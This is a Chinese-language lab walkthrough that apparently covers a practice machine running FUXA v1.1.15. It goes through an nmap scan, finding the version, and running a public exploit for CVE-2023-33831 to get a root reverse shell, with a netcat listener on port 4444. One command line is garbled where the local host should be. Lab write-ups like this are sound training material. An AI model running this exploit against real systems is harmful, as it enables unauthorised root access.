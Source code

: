 ```yaml
---
description: Easy - Linux / FUXA v1.1.15 - 远程代码执行
---
```


# ✔️ CVE-2023-33831

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个端口：

```bash
nmap -sC -sV -p- -oA cve33831 192.168.149.35 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查1881端口上的内容，在/editor中发现了当前正在运行的软件及其版本号：FUXA v1.1.15-1316

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据已获取的正在运行的软件版本号FUXA v1.1.15-1316，找到了一个未认证的远程代码执行的漏洞：CVE-2023-33831

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Exploit： https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831/blob/main/CVE-2023-33831.py

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接执行该利用脚本，即可获得一个拥有root权限的反弹shell：

```bash
python3 exploit.py --rhost 192.168.149.35 --rport 1881 --.244 --lport 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/6 (35).png" alt=""><figcaption></figcaption></figure>

* 获取proof.txt文本内容：

<figure><img src="../../.gitbook/assets/7 (34).png" alt=""><figcaption></figcaption></figure>
